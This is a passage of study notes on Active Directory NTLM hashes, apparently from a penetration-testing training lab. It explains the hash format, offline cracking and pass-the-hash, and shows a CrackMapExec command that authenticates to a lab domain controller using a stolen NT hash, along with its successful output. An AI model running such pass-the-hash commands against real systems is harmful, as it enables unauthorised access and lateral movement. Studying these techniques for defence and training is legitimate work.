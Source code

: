 ![](Introduction%20to%20Active%20Directory-paste-3.png)
* GPU attacks have shown that the entire NTLM 8 character keyspace can be brute-forced in under `3 hours`
* NTLM is also vulnerable to the pass-the-hash attack, which means an attacker can use just the NTLM hash (after obtaining via another successful attack) to authenticate to target systems where the user is a local admin without needing to know the cleartext value of the password
* An NT hash takes the form of `b4b9b02e6f09a9bd760f388b67351e2b`, which is the second half of the full NTLM hash. An NTLM hash looks like this:
```shell-session
Rachel:500:aad3c435b514a4eeaad3b935b51304fe:e46b9e548fa0d122de7f59fb6d48eaa2:::
```
* Rachel is the username
* 500 is the RID
	* 500 is the known RID for the `administrator` account
* `aad3c435b514a4eeaad3b935b51304fe` is the LM hash and, if LM hashes are disabled on the system, can not be used for anything
* `e46b9e548fa0d122de7f59fb6d48eaa2` is the NT hash. This hash can either be cracked offline to reveal the cleartext value (depending on the length/strength of the password) or used for a pass-the-hash attack
* Below is an example of a successful pass-the-hash attack using the [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) tool:

```shell-session
$ crackmapexec smb 10.129.41.19 -u rachel -H e46b9e548fa0d122de7f59fb6d48eaa2

SMB         10.129.43.9     445    DC01      [*] Windows 10.0 Build 17763 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    DC01      [+] INLANEFREIGHT.LOCAL\rachel:e46b9e548fa0d122de7f59fb6d48eaa2 (Pwn3d!)
```
